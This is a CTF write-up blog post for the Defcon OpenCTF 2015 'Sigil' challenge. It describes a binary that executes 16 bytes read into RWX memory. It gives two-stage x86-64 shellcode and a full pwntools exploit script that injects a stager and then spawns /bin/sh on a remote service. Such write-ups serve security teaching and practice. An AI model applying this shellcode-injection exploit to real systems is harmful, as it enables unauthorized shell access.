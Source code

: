 ```yaml
---
layout: post
title:  "Defcon OpenCTF - Sigil"
date:   2015-08-13 18:03:59
categories: CTF Pwnable
---
```


Below is the main funciton of Sigil:

![Sigil main](/assets/images/sigil.png)

The following occurs:

* memory region is set to `read-write-execute` permissions
* read() of length 16 into that memory region
* call to the buffer just read

The gameplan for this exploit is to send an initial payload which will call `read()` into the `RWX` memory region. From here, we send the actual `/bin/sh` payload which will continue executing after our stage 1 payload.

We can call `read` via `syscall` to make this shellcode small. The following must be setup for this to work:

* rax - 0
* rdi - file descriptor to read from, i.e. stdin
* rsi - destination buffer
* rdx - 0x30 : Arbitrary length to read

The `rax` register is already set to `0` for our `read` syscall, so no modification needs to happen there. The `rdi` register needs to be a `0` in order to read from stdin, so a simple `xor rdi, rdi` will accomplish this for us. The destination buffer is already stored in the rdx register when our shellcode is run, which means we only need to execute a `mov rsi, rdx` in order to setup our destination buffer location. Lastly, we need to set a read length, and a simple `mov rdx, 0x30` will work.

The final stage 1 shellcode is below:

```
mov rsi, rdx  # rdx already contains our buffer location
mov edx, 0x30 # set our read length
add rsi, 10   # Move our buffer addr, so we don't overwrite our initial shellcode
syscall       # Execute read
```

From here, we send a second shellcode containing our generic `/bin/sh` shellcode in order to receive our shell.

The full exploit is below:

```python
from pwn import * # pip install --upgrade git+https://github.com/binjitsu/binjitsu.git
context(arch='amd64')

HOST = '127.0.0.1'
PORT = 4444

# r = process('./sigil')
r = remote(HOST, PORT)

# Debug helper
"""
gdb.attach(r, '''
bp 40062a
c
''')
"""

"""
read() syscall
rax - 0
rdi - file descriptor to read from - 0 => stdin
rsi - destination buffer
rdx - length to read
"""

"""
rax is already 0 for syscall read
rdi is already 0
'xor rdi, rdi', # Read from stdin (file descriptor 0)
"""
shellcode = asm('\n'.join([
'mov rsi, rdx', # rdx already contains our buffer location
'mov edx, 0x30',
'add rsi, 10',
'syscall'
]))

# Ensure we send a full 16 byte Stage 1 payload.
shellcode = shellcode.rjust(16, '\x90')
log.info("Shellcode:[{}]  {}".format(len(shellcode), shellcode))

# Create second payload - simple /bin/sh payload
# Add a beginning nop sled, because why not?
log.info("Stage2: {}".format(shellcraft.sh()))
sc = asm(shellcraft.sh())
sc = sc.rjust(0x30, '\x90')
log.info("Stage2: {}".format(sc))

r.sendline(shellcode + sc)

r.interactive()
```
